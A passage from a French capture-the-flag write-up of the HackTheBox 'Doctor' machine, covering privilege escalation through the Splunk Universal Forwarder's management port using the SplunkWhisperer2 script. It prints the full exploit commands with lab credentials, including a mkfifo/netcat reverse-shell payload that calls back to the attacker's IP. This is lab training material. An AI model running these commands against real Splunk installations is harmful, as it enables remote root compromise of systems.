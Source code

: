 `su shaun`

On peut récupérer le premier flag

![[OSCP/OSCP-like/HTB/Linux/22sh list/HTB - Doctor/img/userflag.png]]

## Elévation de privilèges - root

Lancement de linpeas pour essayer de trouver un moyen d'élever ses privilèges, on a déjà une piste. On a pu voir lors de l'énumération initiale un port 8089 ouvert en lien avec splunk et un utilisateur `splunk` existe aussi sur la machine. Dans les processus on retrouve le path `/opt/splunkforwarder` qui exécute un fichier `pwn.bat`. Toutefois, on a pas les droits pour lire le fichier

![[pe-process-splunk.png]]

Si on se met à rechercher des articles en lien avec `splunk forwarder privilege escalation`, on tombe rapicement sur cet [article](https://airman604.medium.com/splunk-universal-forwarder-hijacking-5899c3e0e6b2) ainsi que cet [exploit](https://github.com/cnotin/SplunkWhisperer2/tree/master) sur le repo de `cnotin`.

Splunk Forwarded inclut un service de gestion qui écoute sur le port 8089 et qui est utilisé pour gérer le forwarded. Par défaut, il accepte les connexions à distance, mais n'autorise pas les connexion à distance avec les informations d'identification par défaut `admin:changeme`, cela peut nous permettre :
- D'élever nos privilèges localement si le mot de passe par défaut n'a pas été changé ;
- D'exécuter des commandes à distance si le mot de passe par défaut a été changé et qu'il est connu de l'attaquant.

On commence par cloner le repo pour utiliser le script python `PySplunkWhisperer2_remote.py`. Si on tente sans credentials, on obtient un message authentifcation failure

![[pe-spk-authfail.png]]

En effet, si on audit le script, on peut voir que si on ne précise par de credentials, il prend ceux par defaut

![[pe-spk-code.png]]

Si maintenant on ajoute les creds que l'on a récupéré `shaun:Guitar123`, ça fonctionne

`python3 PySplunkWhisperer2_remote.py --host 10.129.2.21 --lhost 10.10.14.53 --username shaun --password 'Guitar123' --payload "id"`

![[pe-spk-withcreds.png]]

Si maintenant on modifie le payload pour mettre un reverse shell mkfifo, ça fonctionne et on obtient un shell en tant que root et on peut récupérer le dernier flag.

`python3 PySplunkWhisperer2_remote.py --host 10.129.2.21 --lhost 10.10.14.53 --username shaun --password Guitar123 --payload "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 10.10.14.53 9002 >/tmp/f"`

![[OSCP/OSCP-like/HTB/Linux/22sh list/HTB - Doctor/img/rootflag.png]]